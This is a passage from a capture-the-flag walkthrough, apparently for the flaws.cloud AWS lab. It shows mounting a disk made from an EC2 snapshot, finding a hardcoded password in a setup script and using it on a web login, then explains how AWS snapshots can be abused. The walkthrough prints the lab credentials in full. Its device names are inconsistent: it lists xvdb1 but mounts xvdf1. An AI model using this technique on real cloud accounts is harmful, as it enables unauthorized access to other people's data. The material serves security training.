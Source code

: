 ```bash
# list available drives:
lsblk
# Returns:
#  NAME    MAJ:MIN RM SIZE RO TYPE MOUNTPOINT
#  xvda        202:0    0   8G  0 disk
#  --xvda1     202:1    0   8G  0 part /
#  xvdb        202:16   0   8G  0 disk
#  --xvdb1     202:17   0   8G  0 part

sudo file -s /dev/xvdb1
# Returns:
#  /dev/xvdb1: Linux rev 1.0 ext4 filesystem data, UUID=5a2075d0-d095-4511-bef9-802fd8a7610e, volume name "cloudimg-rootfs" (extents) (large files) (huge files)

# Next we mount it
sudo mkdir /mnt/flaws/
sudo mount /dev/xvdf1 /mnt/flaws

# show the mount
mount

```

6. browse to `/mnt/flaws`
   - Ubuntu is the only user for the volume.
   - in the home file, a bash script for setting up the server.
   - Included in that file is a hardcoded password
   - take the credentials flaws:nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M (username:password)
   - and try them on the web portal that we were asked to authenticate too earlier.

```bash
# Running some variant of `find /mnt -mtime -1` will help to find recent files, which you can filter further using:

$ find /mnt -type f -mtime -1 2>/dev/null | grep -v "/var/" | grep -v "/proc/" | grep -v "/dev/" | grep -v "/sys/" | grep -v "/run/" | less


$ cat /home/ubuntu/setupNginx.sh
# htpasswd -b /etc/nginx/.htpasswd flaws nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M
```

![Screen Shot 2021-01-24 at 21.52.23](https://i.imgur.com/TcABAWw.png)


---

Lesson learned
---



AWS allows snapshots of EC2's and databases (RDS).
- The main purpose for that is to make backups
- but people sometimes use snapshots to get access back to their own EC2's when they forget the passwords.
- This also allows attackers to get access to things.
- Snapshots are normally restricted to your own account, so a possible attack would be
  - an attacker getting access to an AWS key that allows them to start/stop and do other things with EC2's
  - and then uses that to snapshot an EC2
  - and spin up an EC2 with that volume in your environment to get access to it.

